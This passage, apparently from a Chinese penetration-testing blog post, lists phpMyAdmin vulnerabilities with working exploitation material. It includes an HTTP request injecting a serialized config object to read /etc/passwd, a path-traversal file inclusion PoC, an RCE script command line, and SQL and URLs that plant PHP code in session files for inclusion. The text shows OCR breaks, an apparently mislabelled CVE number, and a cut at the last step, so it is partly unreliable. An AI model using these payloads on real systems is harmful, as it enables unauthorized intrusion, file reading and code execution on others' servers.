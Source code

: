 ```
POST /scripts/setup.php HTTP/1.1
Host: your-ip:8080
Accept-Encoding: gzip, deflate Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trid ent/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded Content-Length: 80
action=test&configuration=O:10:"PMA_Config":1:{s:6:"source",s:11:"/etc/passwd";}
```

`CVE-2014 -8959`：本地文件包含

影响范围：`phpMyAdmin 4 .0.1--4 .2.12`，需要`PHP version < 5.3.4` ，`Poc`如下：

```
/gis_data_editor.php?token=2941949d3768c57b4342d94ace606e91&gis_data[gis_type]=
/../../../../phpinfo.txt%00    # 注意改下token值
```

在实际利用中可以利用写入文件到`/tmp`目录下结合此漏洞完成`RCE`，`php`版本可以通过`http header`、

导出表内容到文件的附加内容看到。

`CVE-2016-5734` ：后台`RCE`

影响范围：PhpMyAdmin`4 .0.x-4 .6.2`，需要`PHP 4 .3.0-5.4 .6 versions`，利用如下：

```
cve-2016-5734.py -u root --pwd="" http://localhost/pma -c "system('ls -lua');"
```

`CVE-2018-1261`：后台文件包含

`phpMyAdmin 4 .8.0`和`4 .8.1`，经过验证可实现任意文件包含。利用如下：

执行`SQL`语句，将`PHP`代码写入`Session`文件中：

```
select '<?php phpinfo();exit;?>'
```

包含`session`文件：

```
http://10.1.1.10/index.php?target=db_sql.php%253f/../../../../../../../../var/l ib/php/sessions/sess_*** # *** 为phpMyAdmin的COOKIE值
```

`CVE-2018-19968`：任意文件包含`/RCE`

`phpMyAdmin 4 .8.0~4 .8.3`，利用如下：

创建数据库，并将`PHP`代码写入`Session`文件中:

```
CREATE DATABASE foo;
CREATE TABLE foo.bar (baz VARCHAR(100) PRIMARY KEY );
INSERT INTO foo.bar SELECT '<?php phpinfo(); ?>';
```

生成`foo`数据库的`phpMyAdmin`的配置表，访问：


[1]: https://img.soapffz.com/archives_img/2020/02/13/archives_20200213_111241.png
[2]: https://img.soapffz.com/archives_img/2020/02/13/https://img.soapffz.com/archives_img/2020/02/13/archives_20200213_112857.png
[3]: https://img.soapffz.com/archives_img/2020/02/13/archives_20200213_125442.png
[4]: https://img.soapffz.com/archives_img/2020/02/13/archives_20200213_132709.png
[5]: https://img.soapffz.com/archives_img/2020/02/13/archives_20200213_131046.png
[6]: https://img.soapffz.com/archives_img/2020/02/13/archives_20200213_131258.png
[7]: https://img.soapffz.com/archives_img/2020/02/13/archives_20200213_131352.png
[8]: https://img.soapffz.com/archives_img/2020/02/13/archives_20200213_130356.png
[9]: https://img.soapffz.com/archives_img/2020/02/13/archives_20200213_130718.png
[10]: https://img.soapffz.com/archives_img/2020/02/13/archives_20200213_133321.png
[11]: https://img.soapffz.com/archives_img/2020/02/13/archives_20200213_134455.png
[12]: https://img.soapffz.com/archives_img/2020/02/13/archives_20200213_134522.png
[13]: https://img.soapffz.com/archives_img/2020/02/13/archives_20200213_135233.png
[14]: https://img.soapffz.com/archives_img/2020/02/13/archives_20200213_135252.png
[15]: https://img.soapffz.com/archives_img/2020/02/13/archives_20200213_142449.png
[16]: https://img.soapffz.com/archives_img/2020/02/13/archives_20200213_143545.png
[17]: https://mp.weixin.qq.com/s/9Tkcn2AtGrHUsIbRCQ-ZSQ
[18]: https://mp.weixin.qq.com/s/Y1ZtcQ-VuIh89RDcYoD3hQ
[19]: https://mp.weixin.qq.com/s/IWjGPQ155kZnUxh5fjb1RQ
[20]: https://www.freebuf.com/articles/web/226240.html